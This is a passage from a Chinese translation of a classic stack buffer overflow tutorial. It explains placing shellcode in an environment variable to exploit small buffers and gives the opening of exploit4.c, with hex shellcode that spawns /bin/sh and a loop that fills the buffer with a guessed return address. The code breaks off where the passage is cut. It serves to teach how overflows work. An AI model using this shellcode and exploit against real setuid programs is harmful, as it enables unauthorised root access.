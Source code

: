 尤里卡! 仅仅几次尝试我们就成功了!如果xterm是带suid root安装的, 我们就已经
得到了一个root shell了.

## 小缓冲区的溢出

有时候想使其溢出的缓冲区太小了, 以至于shellcode都放不进去, 这样返回地址就会被指令所覆盖, 而不是我们所推测的地址, 或者shellcode是放进去了, 但是没法填充足够多的NOP指令, 这样推测地址的成功率就很低了. 要从这样的程序(小缓冲区)里得到一个shell, 我们必须得想其他办法. 下面介绍的这种方法只在能够访问程序的环境变量时有效.

我们所做的就是把shellcode放到环境变量中去, 然后用这个变量在内存中的地址来使缓冲区溢出. 这种方法同时也提高了破解工作的成功率, 因为保存shellcode的环境变量想要多大就有多大.


当程序开始时, 环境变量存储在堆栈的顶部, 任何使用`setenv()`的修改动作会在其他地方重新分配空间. 开始时的堆栈如下所示:

```
NULLNULL
```

我们新的程序会使用一个额外的变量, 变量的大小能够容纳shellcode和NOP指令,新的破解程序如下所示:


exploit4.c

```c
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048
#define NOP 0x90

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, eggsize=DEFAULT_EGG_SIZE;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    if (argc > 3) eggsize = atoi(argv[3]);


    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_esp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    ptr = egg;
```